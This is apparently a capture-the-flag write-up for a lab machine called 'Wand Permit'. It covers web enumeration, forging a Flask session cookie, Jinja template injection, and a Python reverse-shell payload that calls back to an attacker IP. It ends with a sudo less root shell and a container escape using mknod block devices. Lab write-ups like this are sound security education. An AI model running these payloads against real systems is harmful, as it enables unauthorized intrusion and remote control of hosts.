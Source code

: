 # Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:
![CHANGELOG](./changelog.png|width=250px)

We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json
![MANIFEST](./manifest.png)

We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

![main-bundle](./main-bundle.png)
![dev-bundle](./dev-bundle.png)

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.
![burp](./burp.png)

We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: ![wiz](./wizard_id.png)

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```
![grep](./grep.png)

### Root Flag
![flag](./flag)
